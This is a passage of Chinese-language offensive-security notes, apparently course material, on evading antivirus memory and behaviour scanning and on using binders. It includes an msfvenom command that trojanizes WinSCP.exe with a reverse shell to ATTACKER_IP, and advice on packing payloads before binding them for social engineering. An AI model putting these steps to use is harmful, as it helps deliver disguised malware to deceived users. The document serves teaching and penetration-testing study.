 内存扫描与行为检测的挑战:

即使加壳后的文件能通过磁盘扫描，当它运行时，Windows Defender (或其他具有高级行为监控和内存扫描能力的 AV) 仍然可能检测到其恶意行为，尤其是在 Shellcode 执行敏感操作（如 CreateProcess() 创建新进程）时。

**可能的规避技巧 (针对内存扫描或行为检测)**:

- **延迟执行**: 在进程启动后等待一段时间（例如几分钟）再执行敏感操作。某些 AV 可能在进程启动初期进行密集扫描，之后降低频率。
- **使用更小、更隐蔽的 Payload**: 执行单个、影响较小的命令可能比启动一个完整的反向 Shell 更不容易被检测。例如，使用 `msfvenom -p windows/x64/exec CMD='net user ...'`。
- **迷惑性操作**: 从已建立的反向 Shell 中再次运行 `cmd.exe`。AV 可能会检测并终止原始的 Payload 进程，但新启动的 `cmd.exe` 进程可能不受影响（但这取决于 AV 的检测逻辑）。

---

#### 绑定器 (Binders)

##### 1. 定义与目的

**绑定器 (Binder)** 是一种将两个或多个可执行文件合并成一个单一可执行文件的工具。其主要目的**不是为了规避 AV 检测**，而是为了**社会工程**：将恶意载荷隐藏在一个看似合法的、用户期望运行的程序中，以欺骗用户执行。

##### 2. 工作原理

绑定器通常会将恶意 Shellcode 或可执行代码附加到合法程序上，并修改执行流程，使得在用户运行“合法”程序时，恶意代码也能被秘密执行。例如：

- 修改 PE 头中的入口点，使恶意代码在合法程序的主逻辑开始前运行，执行完毕后再将控制权交还给合法程序。
- 为恶意代码创建一个新的线程并行执行。

##### 3. 使用 msfvenom 进行绑定

`msfvenom` 的 `-x` 选项可以将一个有效载荷植入到指定的 `.exe` 模板文件中，生成的输出文件在运行时会同时执行原始程序逻辑和植入的载荷。`msfvenom` 通常通过为植入的载荷创建一个额外的线程来实现。

**示例 (将反向 Shell 植入 `WinSCP.exe`)**:

Bash

```
C:\> msfvenom -x WinSCP.exe -k -p windows/shell_reverse_tcp lhost=ATTACKER_IP lport=7779 -f exe -o WinSCP-evil.exe
```

(-k 选项尝试在单独的线程中运行载荷，以保持原始程序的功能)

当用户运行 WinSCP-evil.exe 时，WinSCP 程序会正常启动，同时一个反向 TCP Shell 会连接到攻击者的监听器。

##### 4. 绑定器与杀毒软件

- **通常无法规避签名检测**: 简单地将两个可执行文件合并，并不能改变恶意载荷本身的签名。如果原始载荷能被 AV 检测到，那么绑定后的文件通常也会被检测到。
- **主要用途**: 欺骗用户。

**最佳实践**: 在创建真实世界的恶意载荷时，通常会先使用编码器、加密器或加壳器来处理 Shellcode 或恶意程序，使其难以被基于签名的 AV 检测，然后再将其绑定到一个用户熟悉或期望的合法可执行文件中，以增加社工成功的几率。